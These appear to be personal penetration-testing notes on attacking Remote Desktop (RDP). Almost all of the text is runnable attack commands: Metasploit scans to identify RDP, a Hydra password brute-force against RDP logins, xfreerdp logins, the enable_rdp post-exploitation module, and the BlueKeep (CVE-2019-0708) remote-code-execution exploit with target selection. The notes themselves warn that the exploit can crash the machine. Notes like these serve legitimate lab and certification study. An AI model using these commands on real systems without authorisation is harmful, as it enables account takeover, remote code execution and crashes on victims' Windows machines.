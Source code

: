 port 3389
![](</Images/Pasted image 20231203135716.png>)

to verify a port is actually RDP. two methods
#msfconsole serach rdp_scanner
```bash
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS $IP
set RPORT 3333
run
```


brute force login using Hydra
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt  -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt -s $PORT $IP rdp
```

xfreerdp to login
```bash
xfreerdp /u:<username> /p:<password>/v:<ip address>:<port>
```

## Enable RDP post explotation
`search enable_rdp`

That enables rdp along with port. Once done use #xfreerdp to connect. Requires credentials. 
```
xfrerdp /u:<user> /p:<pass> /v:<ip>
```


## BlueKeep Exploit

To check if vulnerable
```bash
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS $IP
exploit
```

If vulnerable use:
```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS $IP
show targets #check target options
set target 5
exploit
```

> **NOTE** kernel exploits can crash machine. If this crashes machine, RIP. Use google to resolve. :)